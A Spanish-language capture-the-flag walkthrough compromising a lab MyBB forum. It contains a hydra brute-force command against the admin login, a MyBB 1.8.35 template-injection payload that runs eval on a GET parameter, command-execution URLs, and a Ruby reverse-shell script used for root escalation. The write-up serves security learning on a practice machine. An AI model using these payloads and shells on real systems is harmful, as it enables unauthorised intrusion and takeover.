 - Tags: #InformationLeakage #hydra #fuerzaBruta #MyBB
______
comenzamos con lo básico, aplicando reconocimiento con nmap a la ip de la maquina victima.

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allport 
```

para posteriormente aplicar reconocimiento de versiones y servicios. 

```shell
nmap -p <puertos> <direccion_Ip> -sCV -oN target 
```

se reporta un solo puerto, el puerto 80 (http).

veamos que tenemos.
____
![](attachment/a8be9c79f0822cc7b7010ef21de01c14.png)
___
utilizando el wappalyzer nos reporta que estamos ante un WordPress, también nos reporta MySql.
____
![](attachment/422698034e09ede04f13c812a8eba28a.png)
___
pero si revisamos el codigo fuente veremos que tenemos un nuevo dominio para el cual debemos aplicar virtual hosting para que la IP nos pueda resolver el contenido de la pagina.
_____
![](attachment/bf880d29399a24f31e7d528952554cd6.png)
____
si ingresamos al nuevo dominio veremos lo siguiente.
____
![](attachment/e9bdb643c49097a3cef4bcdff34029a3.png)
___
tenemos otra interfaz por la que corre MyBB. 

MyBB es un sistema de gestión de foros gratuito y de código abierto. Está programado en el lenguaje PHP y soporta bases de datos MySQL, PostgreSQL y SQLite.

también podemos observar que tenemos un posible usuario "admin" y lo podemos corroborar si ingresamos en Member List veremos que el usuario registrado en el sistema es "admin".

podemos aplicar fuzzing con gobuster para ver que otros archivos y directorios encontramos.

encontramos variedad de directorios y archivos pero existen dos que son de real interés hasta el momento.

1) backups 
2) admin

esos dos directorios son los principales a investigar.

empecemos con backups el cual si le aplicamos fuzzing nos descubrirá un archivo **DATA** con el siguiente contenido.
_____
![](attachment/42ee82910570177e0aa58bc368f80e9a.png)
____
tenemos lo que parece ser un usuario "alice" y una contraseña codificada, por los momentos no nos sirve pero la reservaremos para mas adelante.
____
![](attachment/438fd306bdcd36f8f97cf1ee0a3b6398.png)
____
si nos vamos al directorio de admin nos encontraremos con un panel de login el cual sabemos el usuario pero no su contraseña, haremos pruebas con las contraseñas por defecto y mas conocidas, pero no obtenemos resultado.

lo siguiente que haremos es aplicar fuerza bruta con hydra, para eso tenemos que capturar la petición con BurpSuite para tomar los datos que necesitamos para configurar hydra.
____
![](attachment/fa6923da2ae49c407b9e9076d3628616.png)
______
tenemos la petición ahora nos falta armar el rompe cabezas, empecemos.

para aplicar fuerza bruta a un panel de login con hydra necesitamos 3 cosas.

1) dirección donde se aloja el panel en este caso **/admin/index.php**
2) necesitamos la data de como se componen los campos donde ingresamos el usuario y contraseña, en este ejemplo es la siguiente **username=admin&password=addad&do=login**
3) necesitamos el error que nos marca el panel de login cuando la credencial es incorrecta
_____
![](attachment/d448af2a503357eb0a1e48e6af39a601.png)
____
una vez tengamos esas 3 cosas ya podemos realizar el ataque de fuerza bruta con hydra.

el comando tiene la siguiente sintaxis.

```shell
hydra -l admin -P /usr/share/wordlists/rockyou.txt panel.mybb.dl http-post-form "/admin/index.php:username=^USER^&password=^PASS^&do=login:The username and password combination you entered is invalid." -t 16 
```

en los campos donde van el usuario y la contraseña deberán ser reemplazados con **^USER^** en caso de ser el usuario y **^PASS^** en caso de ser la contraseña, ademas de esto debemos agregar el parámetro **http-post-form** para indicarle a hydra a que nos estamos refiriendo.

también tenemos que colocar la URL raíz donde se aloja el panel de login, en este caso es en **panel.mybb.dl**.

hydra nos reportara lo siguiente.
____
![](attachment/a44f0613eb392f43b6baf3393695166c.png)
____
nos reporta variedad de contraseñas pero la indicada es **babygirl**, teniendo la credencial ya podemos acceder como admin a MyBB.

allí podremos ver la versión de MyBB y buscar vulnerabilidades en caso de que las tenga.

tenemos la versión MyBB 1.8.35.

tenemos una vulnerabilidad reportada, se trata de un Template Code Injection.

sigamos la prueba de concepto que nos ofrece un blog.

Para demostrar esta vulnerabilidad manualmente, siga estos pasos:

1. Iniciar sesión en el panel de administración
2. Vaya a **“Plantillas y estilo” > “Plantillas” > “Plantillas predeterminadas”**.
3. Seleccione una plantilla (por ejemplo, “Plantillas de quién está en línea”) y haga clic en “en línea”.
4. Agregue la siguiente carga útil en la parte superior de la plantilla:

```java
<!--{$db->insert_id(isset($_GET[1])?die(eval($_GET[1])):'')}{$a[0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0]}-->
```

5. Haga clic en uno de los botones Guardar
6. - Prueba de concepto de PHPInfo: [http://example.com/online.php?1=phpinfo();](http://example.com/online.php?1=phpinfo()
7. - Comando Ejecutar: [http://example.com/online.php?1=system('whoami;pwd');](http://example.com/online.php?1=system(%27whoami;pwd%27);)
_____
si accedemos para ejecutar comandos podremos ver lo siguiente.
_____
![](attachment/619fa5b855bc358c422c23d7f769c859.png)
____
tenemos ejecución remota de comandos, ahora podemos entablar una reverse shell y ganar acceso a la maquina.
______
![](attachment/eb9d6da79a51672c13eb39264d91d916.png)
_____
estamos dentro, ahora necesitamos descifrar la contraseña para así poder pivotar al usuario alice.
___
![](attachment/0a6018603d2b36fa15837acf826190ce.png)
____
utilizamos john para descifrarla y así podemos pivotar de usuario. 

ahora debemos buscar una forma de escalar privilegios, si aplicamos el comando sudo -l veremos lo siguiente.
_____
![](attachment/457028807238b402fff6d69bb9db27dd.png)
_____
podemos ejecutar cualquier script de ruby, por lo que buscaremos una reverse shell para poder pivotar a root.

```shell
#!/usr/bin/env ruby
# syscall 33 = dup2 on 64-bit Linux
# syscall 63 = dup2 on 32-bit Linux
# test with nc -lvp 1337 

require 'socket'

s = Socket.new 2,1
s.connect Socket.sockaddr_in 1337, '127.0.0.1'

[0,1,2].each { |fd| syscall 33, s.fileno, fd }
exec '/bin/sh -i'
```

esta es la reverse shell que funciono, la modificamos y la subimos a la maquina victima por medio de un servidor de python.

debemos estar a la escucha con netcat en el puerto que establezcamos en la reverse shell.

ejecutamos el script desde la maquina victima y obtendremos root.
____